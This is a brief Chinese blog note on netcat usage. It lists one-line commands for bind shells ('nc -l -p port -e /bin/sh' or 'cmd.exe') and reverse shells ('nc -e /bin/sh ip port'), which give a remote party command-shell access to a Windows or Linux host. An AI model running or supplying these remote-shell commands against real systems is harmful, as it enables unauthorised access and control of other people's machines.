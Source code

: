 ```yaml
---
layout: post
title: nc使用
categories: [blog ]
tags: [Tool, ]
description: 关于连接
---
```

### 正向连接
* 目标监听一个port

		nc -l -p port -e cmd.exe //win
		nc -l -p port -e /bin/sh //linux
* 本机连接

		nc ip port
### 反向连接
* 本地监听一个端口

		nc -vv -l -p port
* 目标连接

		nc -e cmd.exe ip port //win
		nc -e /bin/sh ip port //linux
